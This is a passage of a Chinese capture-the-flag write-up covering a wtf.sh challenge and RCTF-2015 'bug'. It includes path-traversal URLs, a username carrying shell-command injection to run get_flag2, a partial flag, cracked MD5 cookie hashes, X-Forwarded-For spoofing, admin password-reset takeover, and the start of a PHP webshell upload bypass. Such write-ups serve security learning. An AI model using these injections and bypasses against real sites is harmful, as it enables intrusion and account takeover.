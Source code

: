 ```
		c. 整个程序的源码 /wtf.sh 以及 /post.wtf?post=../../
		d. 列出users_lookup下的目录, /post.wtf?post=../users
		e. 注册恶意用户	
		
		```php
		${find,/,-iname,get_flag2}
		$/usr/bin/get_flag2
		$/usr/bin/get_flag2
		```
		
		提交含有目录穿越注入代码的回复:	`/reply.wtf?post=../users_lookup/sh.wtf%09`
		最终得到**神仙**  flag2```149e5ec49d3c29ca}```

```

### RCTF-2015 bug

```
看到cookie里面有个username, 内容很像md5, 那么破解一下, cmd5收费...行吧

```

```
123-82ed7a14920dd2db1b6657348656eaa5
root-46470eaadfc99c960cd23ddef3398daf
admin-4b9987ccafacb8d8fc08d22bbca797ba

```

原本是想改cookie绕过, 可是加密方式不知道. 最后还是重置密码那里进去抓包改的admin密码.
改xff为127, 进去看到注释`/index.php?module=filemanage&do=???`,跟进发现这么一句

```php+HTML
<script type="text/javascript">
	document.getElementById('cur').className = "cur";
</script>

```

filename怀疑是lfi或者命令注入, bp走一走, 这期间看了一下服务器环境, 待会儿有用:

```php
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26

```

看了下writeup, 原来是要进到upload上传界面(唉, 本菜思路不够活跃想不到).
上传的话, 测试了一下, 有以下反映:

- 上传了其他类型的文件(如jpg文件等) | You know what I want!
- 后缀或内容被waf拦截 | Something shows it is a php!
- 是php5后缀但内容里没有php木马 | It is not a really php file

那么步骤就清楚了, 如何它绕过php的识别, 上传php木马, 限制如下:
